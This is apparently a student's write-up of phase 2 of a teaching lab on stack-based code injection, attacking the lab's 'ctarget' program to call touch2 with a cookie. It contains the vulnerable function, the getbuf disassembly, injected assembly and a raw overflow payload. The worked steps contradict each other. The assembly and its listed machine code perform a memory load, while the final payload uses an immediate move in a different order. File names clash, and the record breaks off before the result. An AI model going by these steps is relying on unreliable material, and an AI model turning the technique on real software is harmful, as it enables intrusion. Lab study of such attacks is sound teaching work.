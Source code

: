 However, we should make it appears to `touch2`.

The code of function `touch2` is:

```cpp
void touch2(unsigned val) {
    vlevel = 2;
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

First, the cookie of us is in *cookie.txt*, my cookie is: `0x59b997fa`.

And look at `getbuf`:

```x86asm
00000000004017a8 <getbuf>:
  4017a8: 48 83 ec 28           sub    $0x28,%rsp
  4017ac: 48 89 e7              mov    %rsp,%rdi
  4017af: e8 8c 02 00 00        callq  401a40 <Gets>
  4017b4: b8 01 00 00 00        mov    $0x1,%eax
  4017b9: 48 83 c4 28           add    $0x28,%rsp
  4017bd: c3                    retq
  4017be: 90                    nop
  4017bf: 90                    nop
```

In line 0x4017af, we need inject code to stack: (It means first exec the code in the stack, and then return, and continue exec `getbuf`, then turn to `touch2`)

```x86asm
movq  0x59b997fa, %rdi
pushq $0x4017ec
retq
```

Stored as `inject.s`, and run `gcc -c inject2.s`, `objdump -d inject2.o  > inject2.d`, then get the machine code: `48 8b 3c 25 fa 97 b9 59 68 ec 17 40 00 c3`, last insert the `%rsp`, so the result2 is:

```txt
68 ec 17 40 00 48 c7 c7
fa 97 b9 59 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55
```

Run command `cat result2.txt | ./hex2raw | ./ctarget -q`, the result is:
